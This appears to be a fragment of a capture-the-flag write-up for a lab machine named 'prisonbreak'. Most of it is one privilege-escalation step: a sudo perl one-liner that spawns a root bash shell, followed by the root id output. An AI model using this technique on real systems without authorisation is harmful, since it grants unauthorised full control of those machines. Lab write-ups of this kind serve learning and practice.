 ### Privilige escelation */usr/bin/perl*  (last flag)


It can be used to break out from restricted environments by spawning an interactive system shell.

```
 sudo -u root /usr/bin/perl -e 'exec "/bin/bash";'


root@prisonbreak:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
root@prisonbreak:/tmp# 

```


after 14 users i got the root :) 









